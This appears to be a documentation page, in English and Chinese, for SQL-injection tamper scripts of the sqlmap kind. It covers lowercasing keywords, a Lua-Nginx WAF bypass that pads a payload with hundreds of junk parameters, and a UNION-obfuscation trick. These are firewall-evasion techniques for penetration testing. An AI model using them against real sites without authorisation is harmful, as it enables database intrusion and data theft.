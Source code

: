 ### lowercase.py

> Replaces each keyword character with lower case value (e.g. SELECT -> select)

用小写字母值替换每个关键词字符（例如：`SELECT` -> `select`）。

Tested against:
* Microsoft SQL Server 2005
* MySQL 4, 5.0 and 5.5
* Oracle 10g
* PostgreSQL 8.3, 8.4, 9.0

```py
>>> tamper('INSERT')
'insert'
```

### luanginx.py

> LUA-Nginx WAFs Bypass (e.g. Cloudflare)

Reference:
* https://opendatasecurity.io/cloudflare-vulnerability-allows-waf-be-disabled/

```py
>>> random.seed(0); hints={}; payload = tamper("1 AND 2>1", hints=hints); "%s&%s" % (hints[HINT.PREPEND], payload)
'34=&Xe=&90=&Ni=&rW=&lc=&te=&T4=&zO=&NY=&B4=&hM=&X2=&pU=&D8=&hm=&p0=&7y=&18=&RK=&Xi=&5M=&vM=&hO=&bg=&5c=&b8=&dE=&7I=&5I=&90=&R2=&BK=&bY=&p4=&lu=&po=&Vq=&bY=&3c=&ps=&Xu=&lK=&3Q=&7s=&pq=&1E=&rM=&FG=&vG=&Xy=&tQ=&lm=&rO=&pO=&rO=&1M=&vy=&La=&xW=&f8=&du=&94=&vE=&9q=&bE=&lQ=&JS=&NQ=&fE=&RO=&FI=&zm=&5A=&lE=&DK=&x8=&RQ=&Xw=&LY=&5S=&zi=&Js=&la=&3I=&r8=&re=&Xe=&5A=&3w=&vs=&zQ=&1Q=&HW=&Bw=&Xk=&LU=&Lk=&1E=&Nw=&pm=&ns=&zO=&xq=&7k=&v4=&F6=&Pi=&vo=&zY=&vk=&3w=&tU=&nW=&TG=&NM=&9U=&p4=&9A=&T8=&Xu=&xa=&Jk=&nq=&La=&lo=&zW=&xS=&v0=&Z4=&vi=&Pu=&jK=&DE=&72=&fU=&DW=&1g=&RU=&Hi=&li=&R8=&dC=&nI=&9A=&tq=&1w=&7u=&rg=&pa=&7c=&zk=&rO=&xy=&ZA=&1K=&ha=&tE=&RC=&3m=&r2=&Vc=&B6=&9A=&Pk=&Pi=&zy=&lI=&pu=&re=&vS=&zk=&RE=&xS=&Fs=&x8=&Fe=&rk=&Fi=&Tm=&fA=&Zu=&DS=&No=&lm=&lu=&li=&jC=&Do=&Tw=&xo=&zQ=&nO=&ng=&nC=&PS=&fU=&Lc=&Za=&Ta=&1y=&lw=&pA=&ZW=&nw=&pM=&pa=&Rk=&lE=&5c=&T4=&Vs=&7W=&Jm=&xG=&nC=&Js=&xM=&Rg=&zC=&Dq=&VA=&Vy=&9o=&7o=&Fk=&Ta=&Fq=&9y=&vq=&rW=&X4=&1W=&hI=&nA=&hs=&He=&No=&vy=&9C=&ZU=&t6=&1U=&1Q=&Do=&bk=&7G=&nA=&VE=&F0=&BO=&l2=&BO=&7o=&zq=&B4=&fA=&lI=&Xy=&Ji=&lk=&7M=&JG=&Be=&ts=&36=&tW=&fG=&T4=&vM=&hG=&tO=&VO=&9m=&Rm=&LA=&5K=&FY=&HW=&7Q=&t0=&3I=&Du=&Xc=&BS=&N0=&x4=&fq=&jI=&Ze=&TQ=&5i=&T2=&FQ=&VI=&Te=&Hq=&fw=&LI=&Xq=&LC=&B0=&h6=&TY=&HG=&Hw=&dK=&ru=&3k=&JQ=&5g=&9s=&HQ=&vY=&1S=&ta=&bq=&1u=&9i=&DM=&DA=&TG=&vQ=&Nu=&RK=&da=&56=&nm=&vE=&Fg=&jY=&t0=&DG=&9o=&PE=&da=&D4=&VE=&po=&nm=&lW=&X0=&BY=&NK=&pY=&5Q=&jw=&r0=&FM=&lU=&da=&ls=&Lg=&D8=&B8=&FW=&3M=&zy=&ho=&Dc=&HW=&7E=&bM=&Re=&jk=&Xe=&JC=&vs=&Ny=&D4=&fA=&DM=&1o=&9w=&3C=&Rw=&Vc=&Ro=&PK=&rw=&Re=&54=&xK=&VK=&1O=&1U=&vg=&Ls=&xq=&NA=&zU=&di=&BS=&pK=&bW=&Vq=&BC=&l6=&34=&PE=&JG=&TA=&NU=&hi=&T0=&Rs=&fw=&FQ=&NQ=&Dq=&Dm=&1w=&PC=&j2=&r6=&re=&t2=&Ry=&h2=&9m=&nw=&X4=&vI=&rY=&1K=&7m=&7g=&J8=&Pm=&RO=&7A=&fO=&1w=&1g=&7U=&7Y=&hQ=&FC=&vu=&Lw=&5I=&t0=&Na=&vk=&Te=&5S=&ZM=&Xs=&Vg=&tE=&J2=&Ts=&Dm=&Ry=&FC=&7i=&h8=&3y=&zk=&5G=&NC=&Pq=&ds=&zK=&d8=&zU=&1a=&d8=&Js=&nk=&TQ=&tC=&n8=&Hc=&Ru=&H0=&Bo=&XE=&Jm=&xK=&r2=&Fu=&FO=&NO=&7g=&PC=&Bq=&3O=&FQ=&1o=&5G=&zS=&Ps=&j0=&b0=&RM=&DQ=&RQ=&zY=&nk=&1 AND 2>1'
```

### misunion.py

> Replaces instances of UNION with -.1UNION

`UNION` 修改为 `-.1UNION`
